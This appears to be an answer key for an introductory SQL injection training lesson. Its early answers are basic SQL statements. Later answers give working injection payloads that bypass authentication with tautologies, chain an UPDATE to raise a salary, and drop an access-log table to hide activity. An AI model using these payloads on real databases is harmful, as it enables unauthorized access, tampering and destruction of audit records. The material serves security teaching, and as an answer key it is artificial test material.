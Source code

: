 # SQL Injection (intro)

## 2 - What is SQL?
Look at the example table. Try to retrieve the department of the employee Bob Franco. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

Answer:
SQL Query = 
`select department from employees where first_name = 'Bob' and last_name = 'Franco'`

## 3 - Data Manipulation Langauge
Try to change the department of Tobi Barnett to 'Sales'. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

Answer:
SQL Query = 
`update employees set department = 'Sales' where first_name = 'Tobi' and last_name = 'Barnett'`

## 4 - Data Definition Language (DDL)
Now try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees". :

Answer:
SQL Query =
`alter table employees add column phone varchar(20)`

## 5 - Data Control Language (DCL)
Try to grant the usergroup "UnauthorizedUser" the right to alter tables:

Answer:
SQL Query =
`grant ALTER table to 'UnauthorizedUser'`

## 9 - Try It! String SQL Injection

SQL Query in code
```"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";```

Answer:
```' OR '1'='1```

## 10 - Try It! Numeric SQL Injection

SQL Query in code
```"SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;```

Answer:
Login_Count = `1` 
User_Id = `1 OR 1=1`

Final Query = ```SELECT * From user_data WHERE Login_Count = 1 and userid= 1 OR 1=1```

## 11 - Compromising confidentially with String SQL injection

SQL Query in code
```
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
```

Answer:
Employee Name: `name`
Authentication TAN: `' OR '1'='1`

## 12 - Compromising Integrity with Query chaining
You just found out that Tobi and Bob both seem to earn more money than you! Of course you cannot leave it at that.
Better go and change your own salary so you are earning the most!

Remember: Your name is John Smith and your current TAN is 3SL99A.

Answer:
Employee Name: `name`
Authentication TAN: `'; update employees set salary = 100000 where auth_tan = '3SL99A`

## 13 - Compromising Availability
Now you are the top earner in your company. But do you see that? There seems to be a access_log table, where all your actions have been logged to!
Better go and delete it completely before anyone notices

Answer:
Action contains: `a'; drop table access_log; --`

 




